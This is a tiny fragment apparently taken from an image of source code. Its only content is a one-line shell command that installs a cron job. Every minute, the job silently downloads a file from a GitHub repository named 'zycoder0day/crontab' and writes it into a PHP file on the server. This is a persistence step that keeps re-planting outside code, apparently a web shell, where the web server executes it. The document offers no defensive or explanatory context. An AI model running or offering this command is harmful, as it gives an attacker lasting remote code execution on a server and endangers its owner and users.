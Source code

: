 echo " * * * * * wget -q https://raw.githubusercontent.com/zycoder0day/crontab/main/info.txt -O /path/conf.php" | crontab -
